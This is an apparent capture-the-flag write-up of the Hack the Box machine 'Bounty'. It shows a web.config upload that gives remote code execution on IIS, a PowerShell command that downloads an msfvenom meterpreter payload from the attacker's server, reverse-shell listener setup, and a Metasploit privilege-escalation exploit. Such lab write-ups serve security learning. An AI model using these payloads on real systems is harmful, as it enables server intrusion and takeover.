 :slug: bounty-writeup/
:date: 2018-10-29
:category: attacks
:subtitle: How to resolve HTB Bounty
:tags: security, htb, pwn, web
:image: cover.png
:alt: Hand holding a pirate toy
:description: Bounty is a Windows Hack the Box (HTB) machine that has several vulnerabilities where an attacker can upload malicious files and get system access. In this article we present how to exploit the vulnerabilities of that machine and how to gain access as Administrator and obtain the root flag.
:keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/NctO2nqkWCY

= Bounty Writeup

== Scanning Phase

First, we check the IP of the
link:https://www.hackthebox.eu/home/machines/profile/142[Bounty]
machine and try a +ping+
to see if we have access.

image::bounty-ip.png[ip]

.ping
[source, bash]
----
host$ ping -c2 10.10.10.93
----

image::ping.png[ping]

Then, we scan the ports with +nmap+.
In this case, we’re going to use basic +nmap+.

[source, bash]
----
host$ nmap 10.10.10.93
----

And, we see that there is only one port open +port 80+.

image::nmap.png[nmap]

Then, we try to access +port 80+ with our browser,
and it opens a web page with an image of Merlin.

image::web.png[web-page]

As we see on this page,
there is nothing more than an image,
so we’re going to scan the whole web server with +dirbuster+
to see if we can access something useful.

[source, bash]
----
host$ dirb http://10.10.10.91
----


image::dirb.png[dirb-scan]

Here we found a folder where uploaded files are stored.
We need the page of the upload functionality.
With +dirbuster+, and some options,
we can set different extensions and obtain what we are looking for.
Since this is a +Windows+ machine,
we are going to use +asp+ and +aspx+ extensions.

[source, bash]
----
host$ dirb http://10.10.10.91 -X .asp,.aspx
----

image::dirb2.png[dirb-scan2]
image::upload-page.png[upload-page]

== Getting user

In the last step we got an upload page,
but with no further instructions.
There we can try to upload an image
and check the result.

image::upload1.png[upload1]

But if we try with a webshell in +aspx+ or +asp+
it returns an error.

image::upload2.png[upload2]

The web server has a filter
that possibly checks the extension of the uploaded file.
If you try with double extension it won’t work either.

So what can we do?
In +Windows+ there are +3+ major types of extensions:
+asp+, +aspx+, and +config+.
We already tried the +asp+ and +aspx+ extensions,
what happens if we upload a +web.config+ file?

[source, xml,linenums]
----
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
----

image::upload1.png[upload11]

We can see the result is positive.
The +web.config+ file is used by +IIS+ servers
to store settings that come with the installation of the +API+.

With this, we can start to exploit this machine.
There is a vulnerability on the +web.config+ file processing
that could allow an attacker to execute code remotely,
by injecting +asp+ code in the file
(More information can be found
link:https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/[here]
).

So, in order to have remote code execution (+RCE+),
we need to add the following lines
to our +web.config+ file:

----
<!--
<%
Response.write("-"&"->")
Response.write("</p><pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><p><!-"&"-")
%>
-->
----

Then, we upload it,
and access the file via the web, as before.

image::rce-ok.png[rce-ok]

*Eureka!* With this, we can have our user flag,
but we want an active shell
that we can use for further enumeration.
For this, we can use +msfvenom+.
This is a tool that creates payloads
in order to gain access to a machine.
It is installed by default on +Kali+;
it also comes with the installation of +Metasploit+.
Then, we upload our file to the server with our +RCE+
and start a web server on our side
to download our exploit.

First, the exploit with msfvenom:

[source, bash]
----
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
----

This will create a malicious file.
When executed on the server
it will give us a reverse shell with our +RCE+ file using +meterpreter+.
This is an advanced, dynamically extensible payload
that uses in-memory +DLL+ injection stagers,
and is extended over the network at runtime.

Then we need to start a web server in our machine.
We can do it with +Python+ by running:

[source, bash]
----
host$ python -m SimpleHTTPServer 7000
----

To make the server download our file,
we can use the next +PowerShell+ command
in our +web.config+ file
replacing the +whoami+ one:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
----

Upload it, and then open it on a private tab.
Now, we can see that the server downloaded our file.

image::download.png[download]

Then we need to start our listener.
We can use +Metasploit+ to do it:

[source, bash]
----
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
----

With this, we are ready to initiate our reverse shell.
In order to do it,
we need to run our exploit on the server
with the same +RCE+ method as before,
changing the command to the following:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
----

Upload it, open the page of the +web.config+ file
and we have our reverse shell.

image::reverse-shell.png[reverse-shell]

== Getting root

With +meterpreter+
we can start to enumerate the server.

image::sys-info.png[sys-info]

And, we see that the server has an +x64 Architecture+.
We are going to repeat the process
(+msfvenom+, +upload+, +handler+, +run+)
but now with the payload:

----
windows/x64/meterpreter/reverse_tcp
----

Then, when we have another session opened,
we are going to run the next one:

[source,bash]
----
meterpreter > run post/multi/recon/local_exploit_suggester
----

image::exploit-suggester.png[exploit-suggester]

Here we got some exploits
that we can use to elevate to +Administrator+,
we are going to use the first one with:

[source,bash]
----
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
----

When it finishes,
we will have a new session created
and with user +NT Authority\System+.

image::admin.png[admin]

With this we can read our +root+ flag.

On this challenge, we learned there was a vulnerability
with the +web.config+ file.
We also learned to always check the architecture
when we access a machine as a user,
and how to use some of the +meterpreter+ commands.

